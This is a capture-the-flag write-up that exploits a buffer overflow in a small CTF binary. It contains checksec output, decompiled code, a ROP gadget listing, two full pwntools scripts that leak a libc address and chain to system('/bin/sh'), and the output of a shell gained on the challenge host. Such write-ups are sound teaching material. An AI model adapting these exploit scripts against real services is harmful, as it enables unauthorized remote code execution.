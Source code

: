 ```yaml
---
title: Pwn3
type: writeup
date: 2023-06-10
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

This time you have nothing! Can you still exploit this?

Author: NoobMaster

## Solution

Running checksec on the binary, we notice the lack of canary and PIE, just like the ones before it.

```
$ checksec pwn3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   41 Symbols	  No	0		1		pwn3
```

Open the binary in Ghidra:

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_28,0x50,stdin);
  puts("n00bz{f4k3_fl4g}");
  return;
}
```
We immediately notice the overflow on ``local_28``. This time, however, we have no win function and no ``system`` either. Since the binary is too small for a full ROP payload, it must mean that we have to ret2libc with ROP.

```
$ ROPgadget --binary pwn3 | grep ret
0x00000000004010eb : add bh, bh ; loopne 0x401155 ; nop ; ret
0x00000000004010bc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010be : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004010ea : add dil, dil ; loopne 0x401155 ; nop ; ret
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040122d : cli ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004010c3 : cli ; ret
0x000000000040123b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040122a : endbr64 ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004010c0 : endbr64 ; ret
0x0000000000401231 : in eax, 0x5f ; ret
0x0000000000401228 : leave ; ret
0x00000000004010ed : loopne 0x401155 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401230 : mov ebp, esp ; pop rdi ; ret
0x000000000040122f : mov rbp, rsp ; pop rdi ; ret
0x0000000000401227 : nop ; leave ; ret
0x00000000004011d8 : nop ; pop rbp ; ret
0x00000000004010ef : nop ; ret
0x0000000000401158 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401232 : pop rdi ; ret
0x000000000040122e : push rbp ; mov rbp, rsp ; pop rdi ; ret
0x000000000040101a : ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040123d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040123c : sub rsp, 8 ; add rsp, 8 ; ret
```
We find a ``pop rdi ; ret`` which is essential for passing ``/bin/sh`` to system. We have puts imported in the binary, which might help us leak a libc address and go from there. We can return to the PLT entry for puts, with the GOT entry as an argument (using ``pop rdi; ret``). Running this payload will conveniently print puts libc address. Then, we can find the libc version, using the [libc database search](https://libc.blukat.me/).

Afterwards, by downloading the found libc version and running it with gdb locally, we can find offsets from puts to everything else. We can even search for ``/bin/sh`` and calculate the offsets, using search-pattern from [gef](https://github.com/hugsy/gef). Exploit to leak:

```py
#!/usr/bin/env python3
from pwn import *

#target = process("./pwn3")
target = remote("challs.n00bzunit3d.xyz", 42450)

pop_rdi = p64(0x0000000000401232)

puts_plt = p64(0x00401060)
puts_got = p64(0x00404018)

target.recvuntil(b'flag?')
payload = b"a" * 0x28 + pop_rdi + puts_got + puts_plt
target.sendline(payload)
target.recvline()
target.recvline()
puts_leak = u64(target.recvline().strip().ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))
```

We run the payload, get the address leak, find the libc versions and the offsets, and further fill in our exploit. An important step to take into account is the fact that we already waste all our inputs by leaking puts. So we should return to the main function at the end of our ROP chain, to abuse more inputs!

```py
#!/usr/bin/env python3

from pwn import *

libc = ELF("./libc6_2.34-0ubuntu3_amd64.so") # the found libc version
#target = process("./pwn3")
target = remote("challs.n00bzunit3d.xyz", 42450)

pop_rdi = p64(0x0000000000401232)
ret = p64(0x000000000040101a) # align stack to 16-bytes again for system call

main_addr = p64(0x004011db)
puts_plt = p64(0x00401060)
puts_got = p64(0x00404018)

target.recvuntil(b'flag?')
payload = b"a" * 0x28 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
target.recvline()
target.recvline()
puts_leak = u64(target.recvline().strip().ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))


system_addr = p64(puts_leak - 0x30170) # offset found with gdb/gef
print(system_addr)

sh_addr = p64(puts_leak + 0x1577c8) # found with search-pattern /bin/sh in gef

payload = b"a" * 0x28 + ret + pop_rdi + sh_addr + system_addr

#gdb.attach(target)

target.sendline(payload)
target.interactive()
```
Run the exploit:
```
$ ./solve.py 
[*] '/home/sunbather/ctf/noobctf/pwn/pwn_series3/libc6_2.34-0ubuntu3_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './pwn3': pid 25635
140139460824784
0x7f74c2c80ed0
b'`\r\xc5\xc2t\x7f\x00\x00'
[*] Switching to interactive mode
Would you like a flag?
n00bz{f4k3_fl4g}
$ whoami
sunbather
```
Aaand we have a shell. Thanks for flying with .hidden airlines!

Note: pwntools has some functionality to automate finding offsets to libc, but for some reason I couldn't get it to work properly. Admittedly, it was my first time fiddling with it and was too lazy to make it work.
